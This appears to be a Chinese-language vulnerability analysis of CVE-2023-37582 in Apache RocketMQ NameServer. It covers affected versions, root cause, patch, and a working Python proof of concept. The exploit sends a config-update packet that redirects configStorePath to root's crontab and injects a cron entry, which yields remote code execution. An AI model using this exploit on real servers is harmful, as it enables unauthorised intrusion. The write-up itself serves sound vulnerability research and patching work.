 # CVE-2023-37582 Apache RocketMQ 远程代码执行漏洞
## 影响版本
Apache RocketMQ NameServer 5.0.0 ～ 5.1.1  
Apache RocketMQ NameServer 4.0.0 ～ 4.9.6
## 环境搭建
https://archive.apache.org/dist/rocketmq/5.1.0/rocketmq-all-5.1.0-bin-release.zip
## 原理分析
原理和CVE-2023-33246类似,这次是发生在NameServer上,也是在远程更新配置的时候,因为之前的漏洞导致Filter被删除了,所以无法直接执行命令,但可以通过覆盖原来配置中的配置文件路径,然后配置的内容也可控,这就可以任意文件写入的方式通过写计划任务的方式进行RCE.  
### DefaultRequestProcessor#updateConfig
当请求的code为318时就会进入updateConfig方法.  
![](2023-08-01-15-43-50.png)   
处理过程也是类似的,将请求body中的字符串转为properties键值对象,然后就进入Configuration开始更新配置了.    
![](2023-08-01-15-45-20.png)    
在update中的操作則是将传入的配置和已有的进行合并最后会调用persist()将配置写入到文件中.  
![](2023-08-01-15-55-45.png)   
![](2023-08-01-15-58-19.png)  
而关键就在于这个写入的文件路径也是从配置中的`configStorePath`属性得到的,所以可以对该属性进行修改导致任意文件写入.  
## 漏洞复现  
```python
import socket
import binascii
client = socket.socket()
client.connect(('192.168.18.25',9876))

# data
json = '{"code":318,"extFields":{"AccessKey":"RockedtMQ","topic":"%RETRY%please_rename_unique_group_name_5","Signature":"yK5YWMVD1a90Fb++YDrHV9n+JMs="},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='configStorePath=/var/spool/cron/root\nproductEnvName=123\\n*/1 * * * * echo 2 > /tmp/poc.txt'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')

# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```
## 补丁  
和CVE-2023-33246的类似,把控制配置文件路径的configStorePath加入黑名单,不允许远程修改.  
![](2023-08-01-16-04-11.png)  
## 参考
https://xz.aliyun.com/t/12691